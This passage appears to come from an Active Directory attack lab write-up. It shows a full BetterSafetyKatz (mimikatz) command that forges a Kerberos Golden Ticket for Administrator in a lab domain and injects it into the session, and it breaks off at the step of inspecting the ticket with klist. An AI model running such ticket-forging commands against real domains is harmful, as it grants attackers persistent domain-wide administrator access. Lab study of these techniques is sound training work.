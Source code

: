 <br/>

Create a Golden ticket using `SafetyKatz.exe`:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

![picture 45](images/db95fa56af31509b5018610fbcf01754237ad30cfbd2726a6ed308133d84e486.png)  

<br/>

Use `klist` to inspect the ticket in the current session:
